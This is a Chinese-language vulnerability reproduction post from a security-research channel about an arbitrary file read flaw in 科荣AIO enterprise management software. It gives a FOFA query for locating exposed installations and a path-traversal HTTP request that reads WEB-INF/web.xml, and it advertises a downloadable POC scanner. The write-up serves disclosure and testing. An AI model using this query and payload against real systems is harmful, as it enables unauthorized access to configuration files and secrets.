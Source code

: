 #  科荣AIO ReadFile存在任意文件读取漏洞   
南风徐来  南风漏洞复现文库   2024-04-10 21:07  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 科荣AIO ReadFile简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
科荣AIO---集成进销存,财务,OA,CRM,HR,电子商务一体化企业管理软件。  
## 2.漏洞描述  
  
科荣AIO---集成进销存,财务,OA,CRM,HR,电子商务一体化企业管理软件。该系统存在任意文件读取漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
科荣AIO  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8DicO7p6VZnTH4ejVE5v9fjyIuOFh5vwYjl3BGyOTfEhh9Hw9XN11j1kzg/640?wx_fmt=jpeg&from=appmsg "null")  
  
科荣AIO ReadFile存在任意文件读取漏洞  
## 4.fofa查询语句  
  
body="changeAccount('8000')"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/ReadFile?tempFile=path&path=../../website/WEB-INF/&fileName=web.xml  
  
漏洞数据包：  
```
GET /ReadFile?tempFile=path&path=../../website/WEB-INF/&fileName=web.xml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8Dic66IUcc2uYxzPUnvYTje7iakg3URsXdGdwZ7QYW064HJuJ3Gvj0XyWicg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现123 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8Dic32yYIBLgcJsnoxt6BpHt4UMMdqQdCICFLFNCysVMibibcobIrmGBNJqA/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8DicpaicBa1p2WMZMJMUjTW9zbowr2bt6ibicabtYUnswqPDGQFObU5iapdELg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8DicctMVv3toGRq0oxEFbGo3ic3Utiay4xQWCqXI3mItUCOjiaJhkpe4xJhpA/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8Dic5HQCfv3f0zBvvMCCoibYdiacloI9LDX2yrMDJXM15F6T7VU5Fwmt5rHg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8Dic9iaib9tZEyMRVup6rKtNeBgKNU5g7j2CaiaOjcG2AibB0j0Nx2KibqNGx8w/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8Dic5eC882Ce42UaIRY0oNEvNxvB540S6WFnkq2k3ojfJ2EDV7v6Iz8MXA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3blOUicZbUwVCbSoicaibJF8DicktzqUUIj1iczLjdhSgwC8LdPW6vgF9KZupgcZGwu692G88Nxr3QIic4w/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
打补丁  
## 8.往期回顾  
  
[浙大恩特客户资源管理系统RegulatePriceAction.entsoft;.js接口存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486123&idx=1&sn=20bcfc57f151f3d39984f1a579e7e172&chksm=974b87aca03c0ebae04a1b736e04f05a1d0f3a739a41774f2b2223cab29b7b5ae7c3e7c03774&scene=21#wechat_redirect)  
  
  
[D-Link NAS设备nas_sharing.cgi接口存在远程命令执行漏洞CVE-2024-3273](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486098&idx=1&sn=a73ca152dbb0b24fc06474932072b496&chksm=974b8795a03c0e834fefe9d2713ff01cb9ff47264c800fa316f99d052a06580e131f9fe50a8d&scene=21#wechat_redirect)  
  
  
  
  
